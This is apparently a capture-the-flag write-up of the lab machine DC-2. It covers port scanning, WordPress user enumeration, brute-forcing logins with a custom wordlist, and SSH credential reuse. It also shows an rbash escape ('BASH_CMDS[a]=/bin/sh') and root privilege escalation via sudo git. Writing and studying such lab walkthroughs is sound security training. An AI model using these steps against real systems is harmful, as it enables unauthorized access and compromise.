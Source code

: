 # PG Play - DC-2

#### Ip: 192.168.244.194
#### Name: DC-2
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

Lets begin this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.194
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:33 CDT
Nmap scan report for 192.168.244.194
Host is up (0.068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu

Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

We can scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -sC -sV 192.168.244.194 -p 80,7744   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:34 CDT
Nmap scan report for 192.168.244.194
Host is up (0.065s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.42 seconds
```

Ok, looks like just HTTP and SSH (running on an uncommon port) are open. Also, we can tell from Nmap that the Ip is redirecting to http://dc-2/, so lets add that to the `/etc/hosts` file.

Looking at the site we see its running WordPress:

site.png

Lets use WPScan to see what else we can find:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ wpscan --url dc-2 --enumerate vp,u,vt,tt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool, WPScan found three usernames:

users.png

Lets add them to a list called users.txt

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ cat >> users.txt                 
admin
tom
jerry
```

Based on an hint on the webpage, I'll use cewl to generate a custom wordlist:

### Exploitation

We can do that by running:

cewl.png

Now that we have a potential password list we can try to bruteforce the WordPress site using wpscan:

creds.png

Nice, we've got a couple credentials. Before logging into the WP site, lets see if these passswords are being reused for SSH to.

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ ssh tom@dc-2 -p 7744
The authenticity of host '[dc-2]:7744 ([192.168.244.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ whoami
-rbash: whoami: command not found
tom@DC-2:~$ id
-rbash: id: command not found
```

Cool, the credentials worked, but it looks like we're in a restricted shell. We can bypass this by fixing the path:

```text
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a
$ export PATH=/bin:/sbin:/usr/bin:$PATH
$ whoami
tom
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

We can now grab the local.txt:

user_flag.png

### Privilege Escalation

Taking a look at the flag3.txt file we find another hint:

```text
$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

Lets su over to user jerry and see what they can run:

```text
$ su jerry
Password: 
jerry@DC-2:/home/tom$ whoami
jerry
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Interesting, looks like jerry can run git as root.

We can head over to https://gtfobins.github.io/gtfobins/git/ and find the commands we need:

gtfo.png

Nice, that worked:

```text
jerry@DC-2:/home/tom$ sudo git -p help config
GIT-CONFIG(1)                                           Git Manual                                          GIT-CONFIG(1)



NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit


DESCRIPTION
       You can query/set/replace/unset options with this command. The name is actually the section and the key separated
       by a dot, and the value will be escaped.

       Multiple lines can be added to an option by using the --add option. If you want to update or unset an option which
!/bin/sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------